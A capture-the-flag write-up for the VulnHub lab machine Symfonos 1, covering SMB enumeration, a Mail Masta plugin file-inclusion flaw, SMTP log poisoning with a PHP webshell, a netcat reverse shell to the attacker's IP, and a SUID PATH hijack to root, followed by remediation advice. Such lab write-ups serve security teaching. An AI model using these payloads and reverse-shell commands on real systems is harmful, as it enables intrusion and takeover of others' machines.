





# Symfonos: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.0.16 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux (Debian) |
| **Root Flag** | `/root/proof.txt` |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/symfonos-1,322/) |

## Attack Summary

SMB anonymous share reveals WordPress path and credentials → Mail Masta LFI (EDB-40290) + SMTP log poisoning → www-data shell → SUID binary `/opt/statuscheck` calls `curl` relatively → PATH hijack → root.

## Methodology

1. SMB enumeration: discover shares and read plaintext credentials
2. WordPress enumeration: identify vulnerable plugin via WPScan
3. LFI: read `/etc/passwd` and `/var/mail/helios` via Mail Masta
4. Log poisoning: inject PHP payload via SMTP, trigger via LFI
5. Privilege escalation: SUID binary PATH hijack

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.0.0/24
nmap -A 192.168.0.16
```

Open ports: **21 (FTP)**, **22 (SSH)**, **25 (SMTP)**, **80 (HTTP)**, **139/445 (SMB)**.



---

## Step 2: SMB Enumeration

```bash
enum4linux 192.168.0.16
```

Reveals user `helios` and two shares: `/anonymous` and `/helios`.

```bash
smbclient //192.168.0.16/anonymous
# login: anonymous, no password
ls
get attention.txt
```

`attention.txt` hints at a weak password. Try it on the `/helios` share.

```bash
smbclient //192.168.0.16/helios -U helios
# password: qwerty
ls
get todo.txt
```

`todo.txt` contains:
```
1. Add users
2. Fix WordPress issues
3. Access portal at /h3l105
```



---

## Step 3: WordPress Enumeration

Add hostname to `/etc/hosts`:
```
192.168.0.16    symfonos.local
```

Browse to `http://symfonos.local/h3l105/`. WordPress installation running.

```bash
wpscan --url http://symfonos.local/h3l105/ --enumerate p
```

WPScan flags **Mail Masta plugin** as vulnerable to Local File Inclusion (Exploit-DB 40290).

---

## Step 4: LFI via Mail Masta Plugin

The `count_of_send.php` script passes user input directly to `include()` without sanitization.

```
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```

This returns `/etc/passwd`, confirming LFI.



---

## Step 5: SMTP Log Poisoning (LFI to RCE)

Inject a PHP webshell payload into the SMTP mail log for user `helios`:

```bash
telnet 192.168.0.16 25
HELO symfonos.local
MAIL FROM: attacker@evil.com
RCPT TO: helios
DATA
<?php system($_GET['c']); ?>
.
QUIT
```

Now trigger the log via the LFI:

```
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=id
```

Verify `id` returns `www-data`. Then get a shell:

```bash
# Start listener
nc -lvp 1234

# Trigger reverse shell via LFI
curl "http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=nc+-e+/bin/sh+192.168.0.10+1234"
```



---

## Step 6: Privilege Escalation — SUID PATH Hijack

Find SUID binaries:

```bash
find / -perm -u=s -type f 2>/dev/null
```

Output includes `/opt/statuscheck`.

```bash
strings /opt/statuscheck
```

The binary calls `curl` without an absolute path. Exploit with PATH manipulation:

```bash
cd /tmp
echo "/bin/sh" > curl
chmod 777 curl
export PATH=/tmp:$PATH
/opt/statuscheck
```

```
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/proof.txt
```



---

## Lessons Learned

1. **SMB anonymous access** leaks credentials and internal paths — disable guest access.
2. **WordPress plugin LFI** (Mail Masta EDB-40290): never pass user input to `include()` without validation.
3. **SMTP log poisoning** via LFI: readable mail logs plus code execution in an LFI is RCE. Restrict log readability.
4. **SUID + relative PATH**: any SUID binary calling external commands by relative name is a privilege escalation risk. Always use absolute paths.

## Remediation

| Vulnerability | Fix |
|---|---|
| SMB anonymous share | Disable guest access; enforce authentication |
| Mail Masta LFI | Update or remove plugin; sanitize `include()` input |
| SMTP log poisoning | Restrict read permissions on `/var/mail/`; disable SMTP if unused |
| SUID PATH hijack | Use absolute paths in SUID binaries; remove unnecessary SUID bits |
